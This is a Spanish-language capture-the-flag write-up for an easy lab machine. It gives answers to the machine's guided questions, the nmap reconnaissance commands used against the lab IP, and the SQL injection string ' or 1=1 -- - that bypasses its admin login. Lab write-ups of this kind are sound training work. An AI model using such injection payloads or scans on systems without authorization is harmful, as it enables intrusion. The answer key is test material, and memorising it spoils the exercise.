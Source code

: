 #easy #linux #nmap #ping #SQLI 

----------
# Guided Mode

1)¿Qué significa la sigla SQL?
	Structured Query Language

2)¿Cuál es uno de los tipos más comunes de vulnerabilidades SQL?
	SQL Injection

3)¿Cuál es la clasificación 2021 OWASP Top 10 para esta vulnerabilidad?
	A03:2021-Injection

4) ¿Qué informa Nmap como el servicio y la versión que se están ejecutando en el puerto 80 del objetivo?
	Apache httpd 2.4.38 ((Debian))

5)¿Cuál es el puerto estándar utilizado para el protocolo HTTPS?
	443

6)¿Cómo se denomina una carpeta en la terminología de las aplicaciones web?
	directory

7)¿Cuál es el código de respuesta HTTP para los errores «No encontrado»?
	404

8)Gobuster es una herramienta utilizada para la fuerza bruta de directorios en un servidor web. Qué interruptor usamos con Gobuster para especificar que estamos buscando descubrir directorios, y no subdominios?
	dir

9)¿Qué carácter puede utilizarse para comentar el resto de una línea en MySQL?
	#

10)Si la entrada del usuario no se maneja con cuidado, podría interpretarse como un comentario. Utilice un comentario para iniciar sesión como admin sin conocer la contraseña. ¿Cuál es la primera palabra de la página web devuelta?
	Congratulations

-------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.187.162   
nmap -p- --open -vvv -sS --min-rate 5000 -n -Pn 10.129.187.162 -oG allports
nmap -sCV -p80 10.129.187.162 -oN target
```

![[Appointment1.png]]

![[Appointment2.png]]

![[Appointment3.png]]
*TLL:* Maquina linux
*Puertos:*
	`80` HTTP
	
-------
# Intrusion a la maquina con [[SQLI Ejemplo Basico]]

Vamos a la pagina http://10.129.187.162
![[Appointment7.png]]
Vemos este panel de logeo, asi que intentamos una inyeccion sql
```
' or 1=1 -- -
En la contraseña ponemos cualquiera, no hace falta ninguna especifica
```

![[Appointment6.png]]
Y listo ya estaria la flag, y resolvimos la maquina